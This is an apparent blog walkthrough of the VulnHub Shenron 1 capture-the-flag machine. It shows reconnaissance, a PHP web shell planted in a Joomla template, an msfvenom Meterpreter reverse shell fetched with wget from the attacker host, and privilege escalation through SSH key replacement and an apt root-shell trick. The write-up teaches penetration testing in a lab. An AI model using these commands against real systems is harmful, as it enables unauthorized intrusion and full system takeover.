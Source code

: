 ```yaml
---
title: CTF Walkthrough for VulnHub Machine Shenron 1
date: 2024-09-03 00:00:00 +0300
categories: [Walkthrough, CTF]
tags: [vulnhub, writeup, shenron, machines, joomla]   
image:
   path: /assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/box-shenron1.png
---
```


## Introduction
Greetings everyone, in this walkthrough, we will talk about Shenron 1 which is the first machine of the Vulnhub Shenron series machines. This walkthrough is not only meant to catch the flag but also to demonstrate how a penetration tester will approach this machine in a real-world assessment.
This machine was set up using VirtualBox as recommended by the creator and the Network configuration was changed to 'Nat Network'.
### Machine Description
Name: Shenron 1<br>
Goal: Get two flags<br>
Difficulty: Beginner to Intermediate<br>
Operating System: Linux<br>
Download link: [Shenron-1](https://download.vulnhub.com/shenron/shenron-1.ova)<br>
### Tools used
1) Nmap<br>
2) Netcat<br>
3) ffuf
4) Metasploit Framework<br>
### Environment Set up
To ensure success as a penetration tester, staying organised is crucial. Proper organisation streamlines documentation and tracking of progress. In this workshop, we will create a directory tree to systematically manage our work, with detailed descriptions of each directory's purpose available here.
![Working Dir](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/working-dir.png)

## Reconnaissance
As in every penetration test, we need to identify our target on the network. We can do this by launching a quick host discovery scan against the network using Nmap. To perform the host verification we need to know our current subnet. We can perform these using the commands below:<br>
Current subnet identification: ```ip a```<br>
Host discovery scan: ```sudo nmap -sn 10.0.2.15/24```<br><br>
![Host Identification](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/target-dis.png)

After identifying our target on the network we need to know what services are run by our target to create different possible attack scenarios. We can start a service scan on our target using Nmap with the command below.<br> ```sudo nmap -sV -sC  10.0.2.4 -oA services-dis```<br><br>
![Service Scan](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/service-scan.png)

We can see that the target is running both an SSH and an Apache web server. Web applications are known to contain many vulnerabilities so let's browse to the web application for further analyses. Unfortunately for us, we fall on the default Apache index page.
![Wep App Index Page](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/web%20app%20index%20page.png)

In a real-world scenario, the default page might be left temporarily during the setup or testing phases of the web application. So let's try to find any hidden directories in the web application. I performed the fuzzing using **ffuf**, but you can use any tool of your preference. Here’s the command I used:<br>
```ffuf -ic -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://10.0.2.4/FUZZ```<br><br>
![Directory Fuzzing](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/dir-fuzzing-1.png)

The fuzzing process uncovers two interesting directories which are the *test* and *joomla*. The directory Joomla already gives us a hint that the web application may be running the well-known Joomla CMS. Let's browse these directories chronologically as they are in our results. Upon browsing to the test directory, we noticed that directory listing is enabled, which constitutes a vulnerability since it appears to expose a file containing passwords. We should document this finding in our Findings folder.
![Directory Listing](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/directory-listing.png)

Accessing the file reveals a pair of credentials for an admin user. We can keep a note of these credentials in a file.
![File Accessed](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/file-accessed-1.png)

Nex let's visit the second directory *joomla* uncovered during our fuzzing. We can see that our target runs the well-known Joomla CMS. Remember, we discovered credentials hidden in the comments of the password file. Let's use these credentials to log in to the Joomla administrative interface, which is typically located in the administrator directory.
*NB: By default, Joomla's administrative interface is accessed through the administrator directory.*
![Joomla Login](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/joomla-login.png)

## Exploitation
Great, we successfully logged in as the admin. Next, we move to Extensions -> Templates -> Templates where attempt to add a PHP shell to a PHP file in an unused template. Here, I chose the protostar template and added a basic PHP shell ``` system($_GET["cmd"]);``` to the error.php file.
*NB: In a real-world penetration test try to use a more complicated name for the GET parameter value such as a hash. This is because anyone can access that file hence if a common name is used, attackers may bruteforce it and also use it to establish their foothold in your client's environment.*
![Template Modification](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/template-modification.png)
After modifying the template we can now execute commands on our target by browsing to the page and specifying the command we want to run as the GET parameter's value.<br> 
```curl http://10.0.2.4/joomla/templates/protostar/error.php?cmd=id```<br><br>
![RCE Test](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/rce-test.png)

This web shell is good but to facilitate our work, we will employ Meterpreter, a sophisticated payload integrated into the Metasploit Framework. To use a meterpreter on our target we first need to craft one using the msfvenom tool from the Metasploit Framework.<br>
```msfvenom -p linux/x64/meterpreter_reverse_tcp  LHOST=10.0.2.15 LPORT=4444 -f elf > update.elf```<br><br>
![Payload Crafting](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/payload-crafting-1.png)
After crafting the executable payload we then start a small HTTP server to transfer the payload to our target using Python3 http.server module.
![Python Server](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/python-server-1.png)

We then use wget on the target to download the payload to the /tmp directory.<br> ```wget http://10.0.2.15/update.elf -O /tmp/update.elf```<br><br>
![Download Operation](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/download-operation-1.png)
Before executing the payload, we need to configure and run a listener in Metasploit.
![Metasploit Set Up](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/metasploit-set-up.png)
After starting the listener we now give execution permission to our payload and execute it.
![Payload Execution](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/payload-exec-1.png)
Upon going back to the listener, we can see that the listener caught a reverse shell connection from the target.
![Catching Shell](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/catching-shell-1.png)
Web applications usually contain a configuration file that stores database credentials. These credentials are used by the web application to connect to the database server. It's a good habit to search for this configuration file which is usually located in the web root directory. On this machine, the file is named web.config.txt. Reading its contents reveals the credentials for the database user.<br> *NB: The name of this file may change depending on the preference of the web administrator.*
![Web Config File](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/web-root-dir.png)
![DB User Creds](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/db-creds.png)
We see that the credentials belong to the user Jenny who is also a user on the target machine. Let's try to authenticate as Jenny.<br>
*Tip: To enumerate users on the system just cat the content of the /etc/passwd file*
![User Auth](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/user-auth-1.png)

## Post Exploitation
At this stage in our CTF assessment, we have identified that the user is vulnerable to password reuse. Using this password, we can now check if the user has any sudo privileges.
![Sudo Right](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/sudo-right-1.png)

Great, the user Jenny can perform copy operations by impersonating Shenron. Since we observed an SSH service running during our service enumeration, let's use the sudo privileges to replace Shenron's SSH key. To do this, I first generate a key pair \(private, public\) on my attack host and upload the public key using the same method used above but you may decide to upload it using our powerful meterpreter.
![SSH Key Gen](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/ssh-key-gen-1.png)
After uploading the public key I replaced the **authorized_keys** file in Shenron's **.ssh** directory by impersonating Shenron using our sudo privileges and then afterward I used the private key to log in as Shenron.
![SSH Key Replace](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/ssh-key-replacement-1.png)
![SSH Login](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/ssh-login-1.png)
We successfully logged in as Shenron we can now use this new account to read the user's flag and further the enumeration process of the system.
![User Flag](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/user-flag.png)
Some users tend to store their passwords in specific files so, let's try to enumerate all files having the string 'password' in their names with the command below.<br> ```find / -iname *password* 2>/dev/null```.<br> We got a hit in the /var/opt directory. Reading the content of the files exposes to us what seems like Shenron's password.
![File Enum](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/file-enum-2.png)
We can now use that password to read Shenron's sudo privileges.
![Sudo Right](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/sudo-right-2.png)
We observe that this account can be used to run apt with root privilege. Let's browse to [GTFOBins](https://gtfobins.github.io/gtfobins/apt/#sudo) to see how we can exploit this right to obtain a root shell. the command GTFOBins provides us with a way of exploiting this privilege but I chose to use the command below. <br>```sudo /usr/bin/apt update -o APT::Update::Pre-Invoke::=/bin/sh```<br><br>
![Root Access](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/root-access.png)<br>
Great, we have obtained root access to the machine, having this access means we own the machine and can do whatever we want. 

## Conclusion
Congratulations, In this walkthrough, you learned how a seemingly simple file listing vulnerability, which exposes sensitive information, can be exploited to take over a machine. We demonstrated how unauthorized access to file directories and the disclosure of sensitive files can provide critical information that attackers can use to escalate privileges and gain full control of the system. This walkthrough highlighted the importance of securing file listings and properly managing access controls to prevent such vulnerabilities from being exploited.. In a real-world assessment, the last step will be to gather our findings and draft a report for our clients. Thanks for following up on this walkthrough.
